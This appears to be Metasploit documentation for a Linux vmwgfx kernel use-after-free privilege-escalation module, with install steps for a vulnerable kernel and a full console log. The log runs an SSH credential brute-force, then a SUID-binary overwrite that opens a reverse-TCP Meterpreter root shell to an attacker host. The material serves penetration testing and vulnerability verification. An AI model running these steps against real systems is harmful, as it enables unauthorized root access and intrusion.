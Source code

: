 ## Vulnerable Application

If the vmwgfx driver fails to copy the 'fence_rep' object to userland, it tries to
recover by deallocating the (already populated) file descriptor. This is
wrong, as the fd gets released via put_unused_fd() which shouldn't be used,
as the fd table slot was already populated via the previous call to
fd_install(). This leaves userland with a valid fd table entry pointing to
a free'd 'file' object.

We use this bug to overwrite a SUID binary with our payload and gain root.
Linux kernel 4.14-rc1 - 5.17-rc1 are vulnerable.

Successfully tested against Ubuntu 22.04.01 with kernel 5.13.12-051312-generic.

### Install

To install a vulnerable kernel on Ubuntu 22.04.01, follow these instructions:

1. Download the `linux-*` modules for a vulnerable kernel, such as https://kernel.ubuntu.com/~kernel-ppa/mainline/v5.13.12/amd64/
2. Install `libssl.1` (https://askubuntu.com/a/1403683)
   1. `echo "deb http://security.ubuntu.com/ubuntu focal-security main" | sudo tee /etc/apt/sources.list.d/focal-security.list`
   2. `sudo apt-get update`
   3. `sudo apt-get install libssl1.1`
   4. `sudo rm /etc/apt/sources.list.d/focal-security.list`
3. `sudo apt-get install build-essential`
4. `sudo dpkg -i *.deb`
5. Follow [these instructions](https://gist.github.com/chaiyujin/c08e59752c3e238ff3b1a5098322b363) to boot the vuln kernel
6. `sudo reboot`

## Verification Steps

1. Start msfconsole
2. Get an initial user shell
3. Do: `use linux/local/vmwgfx_fd_priv_esc`
4. Do: `set session [#]`
5. Do: `run`
6. You should get a root shell.

## Options

## Scenarios

### Ubuntu 22.04.01 with kernel 5.13.12-051312-generic

Gain initial user access

```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/ssh/ssh_login) > set username ubuntu
username => ubuntu
msf6 auxiliary(scanner/ssh/ssh_login) > set password ubuntu
password => ubuntu
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 1.1.1.1:22 - Starting bruteforce
[+] 1.1.1.1:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd) Linux ubuntu2204 5.13.12-051312-generic #202108180838 SMP Wed Aug 18 08:41:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:40003 -> 1.1.1.1:22) at 2022-11-25 08:47:08 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
^Z
Background session 1? [y/N]  y
```

priv esc

```
msf6 auxiliary(scanner/ssh/ssh_login) > use linux/local/vmwgfx_fd_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/vmwgfx_fd_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/vmwgfx_fd_priv_esc) > set session 1
session => 1
msf6 exploit(linux/local/vmwgfx_fd_priv_esc) > set lhost 2.2.2.2
lhost => 2.2.2.2
msf6 exploit(linux/local/vmwgfx_fd_priv_esc) > exploit

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Kernel version 5.13.12-051312-generic appears to be vulnerable
[+] /dev/dri/card0 found writable
[+] /bin/chfn suid binary found
[+] The target appears to be vulnerable. vmwgfx installed
[+] Original /bin/chfn backed up to /root/.msf4/loot/20221125085335_default_1.1.1.1_binchfn_651737.bin
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Max line length is 65537
[*] Writing 10814 bytes in 1 chunks of 39254 bytes (octal-encoded), using printf
[*] Uploading payload to /tmp/.Qpm6q
[*] Writing '/tmp/.Qpm6q' (282 bytes) ...
[*] Max line length is 65537
[*] Writing 282 bytes in 1 chunks of 843 bytes (octal-encoded), using printf
[*] Launching exploit...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 1.1.1.1
[*] Replacing trojaned /bin/chfn with original
[*] Meterpreter session 2 opened (2.2.2.2:4444 -> 1.1.1.1:38250) at 2022-11-25 08:54:14 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 1.1.1.1
OS           : Ubuntu 22.04 (Linux 5.13.12-051312-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
